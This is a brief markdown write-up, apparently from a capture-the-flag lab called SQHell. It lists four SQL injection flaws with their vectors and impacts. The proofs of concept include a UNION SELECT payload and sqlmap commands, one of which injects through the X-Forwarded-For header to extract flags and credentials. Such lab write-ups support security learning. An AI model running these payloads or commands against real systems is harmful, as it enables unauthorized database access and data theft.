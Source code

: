 <span>&nbsp;</span>

## Identified Vulnerabilities
###  Union-based SQL Injection in `/post?id=`
- **Vector:** URL parameter(id).

- **Proof of Concept**:   
    ```SQL
    /post?id=2'
    ```

- **Impact:** - Full database enumeration including table/column disclosure and data extraction from arbitrary tables (flag, users). Confirmed MySQL backend.

<span>&nbsp;</span>

###  Union-based SQL Injection in `/user?id=`
- **Vector:** - URL parameter(id).

- **Proof of Concept**:   
    ```SQL
    /user?id=1 UNION SELECT 1,2,3-- -
    ```

- **Impact:** - Unauthorized access to the sqhell_4 schema, including user credentials and potential access tokens.

<span>&nbsp;</span>

### Error-based / Boolean-based SQL Injection in `/register/user-check`
- **Vector:** Query string parameter (username).

- **Proof of Concept**:   
    ```SQL
    sqlmap -u "http://$ip/register/user-check?username=*" --dbms=mysql --batch --level=3 --risk=3
    ```

- **Impact:** Full access to sqhell_3 including extraction from sensitive tables like flag.


<span>&nbsp;</span>

### Time-based / Error-based SQL Injection via HTTP Header (X-Forwarded-For)
- **Vector:** X-Forwarded-For HTTP header.

- **Proof of Concept**:   
    ```SQL
    sqlmap -u "http://$ip/terms-and-conditions" --headers="X-Forwarded-For: 127.0.0.1*" --dbms=mysql --batch
    ```

- **Impact:** Enabled enumeration and exfiltration of data from the sqhell_1 database, including flags. Bypasses traditional input validation layers.
